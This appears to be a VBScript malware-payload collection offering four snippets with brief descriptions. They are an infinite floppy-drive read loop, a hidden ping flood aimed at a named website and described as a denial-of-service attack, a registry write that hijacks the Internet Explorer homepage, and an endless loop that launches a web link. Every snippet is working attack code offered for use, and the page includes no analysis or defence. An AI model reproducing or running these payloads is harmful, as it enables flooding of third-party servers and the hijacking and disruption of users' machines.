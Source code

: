--------Loop floppy disk read--------

Description: This payloads has to be one of the most annoying
non-damaging payloads that I can think of. It simply makes the
floppy disk drive read at an infinate loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set fso = CreateObject("Scripting.FileSystemObject")
Set DriveA = fso.GetDrive("A:")
Do
If DriveA.IsReady Then DiskReady = True
Loop

-------------------------------------



--------DoS (Denial of Service) attack--------

Description: This code basically Pingfloods a specific webpage,
Link, FTP or whatever. However, just one computer doing a Pingflood
will not cause much damage, but if at least 30 computers were doing it,
it would.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.Run "Ping.exe -t -l 916 www.av.com", 0, False

-------------------------------------



--------Change IE (Internet Explorer) homepage--------

Description: This just changes the homepage of IE using the registry.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.RegWrite "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.wescam.u"

-------------------------------------
--------File/Link execution loop--------

Decription: This code basically executes a File or web link on
a loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
Do
wsc.Run "http://www.rrlf.de/", 3, False
Loop

-------------------------------------


